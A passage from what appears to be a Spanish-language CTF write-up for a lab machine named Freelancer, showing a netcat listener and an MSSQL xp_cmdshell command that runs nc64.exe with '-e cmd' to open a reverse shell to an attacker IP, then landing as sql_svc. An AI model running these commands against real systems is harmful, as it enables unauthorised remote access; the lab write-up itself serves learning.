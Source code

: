 ![curl1](../../../../../assets/Freelancer/dir.png)

Ya tenemos el archivo en el directorio temporal, tambien tenemos curl y trafico de red. Establezcamos una reverse.

Recuerden que para ponerte en escucha y  entablar conexion remota con una maquina windows, usamos rlwrap para que a la hora de tener una consola interactiva podamos tener un historial, usar Ctrl+l,  las flechas y demas.

```
rlwrap -cAr  nc -nlvp 888
```
Y en la consola de la base de datos ejcutaremos una coneccion netcat comun y corriente, añadiendole `-e cmd` para que netcat entienda que tiene que ejecutar ese programa cuando entable una conexion. 

```
EXEC xp_cmdshell '%TEMP%/nc64.exe 10.10.14.11 888 -e cmd'
```

### Usuario mikasaAckerman

Establecemos conexion como el usuario `sql_svc`, al hacer un ipconfig confirmamos que estamos dentro de la maquina victima. 

![ipconfig](../../../../../assets/Freelancer/ipconfig.png)
